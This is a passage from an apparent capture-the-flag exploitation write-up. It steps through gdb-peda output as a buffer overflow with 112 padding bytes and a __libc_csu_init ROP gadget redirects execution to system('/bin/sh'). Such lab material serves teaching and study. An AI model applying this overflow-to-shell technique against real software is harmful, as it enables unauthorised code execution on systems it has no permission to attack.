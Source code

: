 ```bash
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 4, 0x00000000004011ac in main ()
```

Taking one step more, as we want `pop r13` goes to `rip` as `ret == pop rip`, we can see `system` address at `rsp`,, and `/bin/sh` at `rbp`:

```bash
gdb-peda$ si
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7f6d94b04f33 (<__GI___libc_write+19>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0xf672a0 ("What do you want me to echo back? ", 'A' <repeats 112 times>, "/bin/sh\n")
RDI: 0x7f6d94bd7670 --> 0x0
RBP: 0x68732f6e69622f ('/bin/sh')
RSP: 0x7ffd3143a800 --> 0x40116e (<main+15>:    call   0x401040 <system@plt>)
RIP: 0x401206 (<__libc_csu_init+86>:    pop    r13)
R8 : 0x78 ('x')
R9 : 0x0
R10: 0xfffffffffffff28e
R11: 0x246
R12: 0x401070 (<_start>:        xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401202 <__libc_csu_init+82>:       pop    rbx
   0x401203 <__libc_csu_init+83>:       pop    rbp
   0x401204 <__libc_csu_init+84>:       pop    r12
=> 0x401206 <__libc_csu_init+86>:       pop    r13
   0x401208 <__libc_csu_init+88>:       pop    r14
   0x40120a <__libc_csu_init+90>:       pop    r15
   0x40120c <__libc_csu_init+92>:       ret
   0x40120d:    nop    DWORD PTR [rax]
[------------------------------------stack-------------------------------------]
0000| 0x7ffd3143a800 --> 0x40116e (<main+15>:   call   0x401040 <system@plt>)
0008| 0x7ffd3143a808 --> 0x0
0016| 0x7ffd3143a810 --> 0x0
0024| 0x7ffd3143a818 --> 0x7f6d94a3c700 (<init_cacheinfo+80>:   sub    ecx,DWORD PTR [rcx+rcx*4-0x20])
0032| 0x7ffd3143a820 --> 0x0
0040| 0x7ffd3143a828 --> 0x76165f7cf4ad4fc4
0048| 0x7ffd3143a830 --> 0x401070 (<_start>:    xor    ebp,ebp)
0056| 0x7ffd3143a838 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000401206 in __libc_csu_init ()
```
